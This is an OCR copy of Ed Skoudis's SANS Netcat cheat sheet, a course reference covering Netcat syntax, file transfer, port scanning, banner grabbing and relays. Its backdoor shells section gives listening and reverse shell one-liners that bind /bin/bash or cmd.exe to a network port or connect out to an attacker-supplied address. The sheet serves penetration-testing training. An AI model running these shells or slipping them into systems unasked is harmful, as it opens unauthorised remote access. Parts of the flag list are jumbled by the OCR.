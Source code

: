 Netcat Relays on Windows 

Netcat Command Flags 

To start, enter a temporary directory where we will 
create .bat fles: 
C:\> cd c:\temp 

Listener-to-Client Relay: 
C:\> echo nc [TargetIPaddr] [port] > 
relay.bat 
C:\> nc –l –p [LocalPort] –e relay.bat 

Create a relay that sends packets from the local port 
[LocalPort] to a Netcat Client connected to 
[TargetIPaddr] on port [port] 


Listener-to-Listener Relay: 
C:\> echo nc –l –p [LocalPort_2] > 
relay.bat  
C:\> nc –l –p [LocalPort_1] –e 
relay.bat 

Create a relay that will send packets from any 
connection on [LocalPort_1] to any connection 
on [LocalPort_2] 


Client-to-Client Relay: 
C:\> echo nc [NextHopIPaddr] [port2] > 
relay.bat 
C:\> nc [PreviousHopIPaddr] [port] –e 
relay.bat 

Create a relay that will send packets from the 
connection to [PreviousHopIPaddr] on port 
[port] to a Netcat Client connected to 
[NextHopIPaddr] on port [port2] 


$ nc [options] [TargetIPaddr] [port(s)] 

The [TargetIPaddr] is simply the other side’s IP 
address or domain name. It is required in client mode 
of course (because we have to tell the client where to 
connect), and is optional in listen mode. 

-l: Listen mode (default is client mode) 
-L: Listen harder (supported only on Windows 

version of Netcat). This option makes Netcat a 
persistent listener which starts listening again 
after a client disconnects 
-u: UDP mode (default is TCP) 
-p: Local port (In listen mode, this is port listened 

-n: Don’t perform DNS lookups on names of 
-z: Zero-I/O mode (Don’t send any data, just emit 
-wN: Timeout for connects, waits for N seconds 

on. In client mode, this is source port for all 
packets sent) 
-e: Program to execute after connection occurs, 
connecting STDIN and STDOUT to the 
program 
machines on the other side 
a packet without payload) 
after closure of STDIN. A Netcat client or 
listener with this option will wait for N seconds 
to make a connection. If the connection 
doesn’t happen in that time, Netcat stops 
running. 
Standard Error, such as when a connection 
occurs 
on Standard Error 

-vv: Be very verbose, printing even more details 

-v: Be verbose, printing out messages on 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 








Netcat 

 Cheat Sheet
By Ed Skoudis 

 

POCKET REFERENCE GUIDE  

http://www.sans.org 

 

 

 




Purpose 

using Netcat on both Linux and Unix, 

This cheat sheet provides various tips for 
specifcally tailored to the SANS 504, 517, 
and 560 courses.  All syntax is designed for 
the original Netcat versions, released by 
Hobbit and Weld Pond.  The syntax here 
can be adapted for other Netcats, including 

ncat, gnu Netcat, and others. 

 

Fundamentals 
Fundamental Netcat Client: 
$ nc [TargetIPaddr] [port] 

Connect to an arbitrary port [port] at IP Address 
[TargetIPaddr] 

Fundamental Netcat Listener: 
$ nc –l -p [LocalPort] 

Create a Netcat listener on arbitrary local port 
[LocalPort] 

Both the client and listener take input from STDIN 
and send data received from the network to STDOUT

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

File Transfer 

TCP Banner Grabber 

Netcat Relays on Linux 

Push a fle from client to listener: 
$ nc –l -p [LocalPort] > [outfle] 

Listen on [LocalPort], store results in [outfle]  

$ nc –w3 [TargetIPaddr] [port] < 
[infle] 

Push [infle] to [TargetIPaddr] on [port] 

Pull fle from listener back to client: 
$ nc –l -p [LocalPort] < [infle] 

Listen on [LocalPort], prep to push [infle]  

$ nc –w3 [TargetIPaddr] [port] > 
[outfle] 

Connect to [TargetIPaddr] on [port] and 
retrieve [outfle] 


TCP Port Scanner 

Port scan an IP Address: 
$ nc –v –n –z –w1 [TargetIPaddr] 
[start_port]-[end_port] 

Attempt to connect to each port in a range from 
[end_port] to [start_port] on IP Address 
[TargetIPaddr] running verbosely (-v on Linux, -
vv on Windows), not resolving names (-n), without 
sending any data (-z), and waiting no more than 1 
second for a connection to occur (-w1) 

The randomize ports (-r) switch can be used to 
choose port numbers randomly in the range

 

Grab the banner of any TCP service running on an IP 
Address from Linux: 
$ echo "" | nc –v –n –w1 [TargetIPaddr] 
[start_port]-[end_port] 

Attempt to connect to each port in a range from 
[end_port] to [start_port] on IP Address 
[TargetIPaddr] running verbosely (-v), not 
resolving names (-n), and waiting no more than 1 
second for a connection to occur (-w1). Then send a 
blank string to the open port and print out any 
banner received in response 

Add –r to randomize destination ports within the 
range 

Add –p [port] to specify a source port for the 
scan 


Listening backdoor shell on Linux: 
$ nc –l –p [LocalPort] –e /bin/bash 
Listening backdoor shell on Windows: 
C:\> nc –l –p [LocalPort] –e cmd.exe 

Create a shell on local port [LocalPort] that can 
then be accessed using a fundamental Netcat client 

Reverse backdoor shell on Linux: 
$ nc [YourIPaddr] [port] –e /bin/bash 
Reverse backdoor shell on Windows: 
C:\> nc [YourIPaddr] [port] –e cmd.exe 

Create a reverse shell that will attempt to connect to 
[YourIPaddr] on local port [port]. This shell 
can then be captured using a fundamental nc listener


Backdoor Shells 

 

 

 

 

To start, create a FIFO (named pipe) called 
backpipe: 
$ cd /tmp 
$ mknod backpipe p 


Listener-to-Client Relay: 
$ nc –l –p [LocalPort] 0<backpipe | nc 
[TargetIPaddr] [port] | tee backpipe 

Create a relay that sends packets from the local port 
[LocalPort] to a Netcat client connected to 
[TargetIPaddr] on port [port] 


Listener-to-Listener Relay:
$ nc –l –p [LocalPort_1] 0<backpipe | 
nc –l –p [LocalPort_2] | tee backpipe 

Create a relay that sends packets from any 
connection on [LocalPort_1] to any connection 
on [LocalPort_2] 


Client-to-Client Relay: 
$ nc [PreviousHopIPaddr] [port] 
0<backpipe | nc [NextHopIPaddr] 
[port2] | tee backpipe 

Create a relay that sends packets from the 
connection to [PreviousHopIPaddr] on port 
[port] to a Netcat client connected to 
[NextHopIPaddr] on port [port2] 

